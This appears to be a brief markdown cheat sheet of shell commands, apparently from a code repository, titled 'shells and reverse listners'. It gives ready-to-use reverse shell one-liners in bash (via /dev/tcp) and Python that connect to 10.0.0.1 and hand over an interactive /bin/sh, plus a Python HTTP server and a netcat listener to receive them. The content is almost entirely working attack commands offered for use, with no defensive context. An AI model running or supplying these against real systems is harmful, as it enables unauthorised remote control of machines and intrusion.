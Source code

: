 # shells and reverse listners

bash reverse shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
python server
```
python3 -m http.server 80
```
netcat listner
```
nc -lvnp 6666
```

